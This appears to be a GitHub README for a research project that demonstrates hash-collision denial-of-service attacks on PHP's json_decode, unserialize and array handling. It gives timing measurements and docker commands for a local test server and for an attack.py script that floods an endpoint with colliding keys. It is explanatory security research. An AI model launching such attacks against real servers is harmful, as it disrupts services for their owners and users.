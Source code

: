 # Simulate Hash Collision Attack on a PHP Server

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

PHP hashtables are vulnerable to complexity attacks. Every function
that takes external input and parses in a PHP hashtable is therefore
vulnerable to complexity attacks.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

The file `collision_keys_small.txt` contains only 10k entries.
If you want to test out the real deal you should try these attacks
with `collision_keys.txt` (64k entries).

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

#### Different PHP versions

Docker tags for official Docker PHP image:

- `5.4.43-cli`
- `5.5.27-cli`
- `5.6.11-cli`
- `7.0.0beta2-cli`

#### Measurements

Median in `seconds` of 100 samples for each measurement on a `m1.medium` instance.
Note that this is only a portion of evil keys consisting out of 10k keys.
Imagine what 64k evil keys kan do. 

**Good:**

PHP Version | `array`     | `json_decode` | `unserialize`
------------|-------------|---------------|----------------
5.4.43      | 0,0033      | 0,0022        | 0,0022
5.5.27      |             | 0,0019        | 
5.6.11      |             | 0,0019
7.0.0beta2  |             | 0,0009

**Evil:**

PHP Version | `array`     | `json_decode` | `unserialize`
------------|-------------|---------------|----------------
5.4.43      | 1,2470      | 1,3896        | 1,3896
5.5.27      |             | 1,4049
5.6.11      |             | 1,3999
7.0.0beta2  |             | 0,3737


## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)

## Run the server

```bash
docker run -it --rm -p 8080:80 -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.


Make 100 good normal requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json --no-collide
```

Make 100 bad requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

You can also run the form based attack (which has been fixed by an Appache workaround).

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100
```

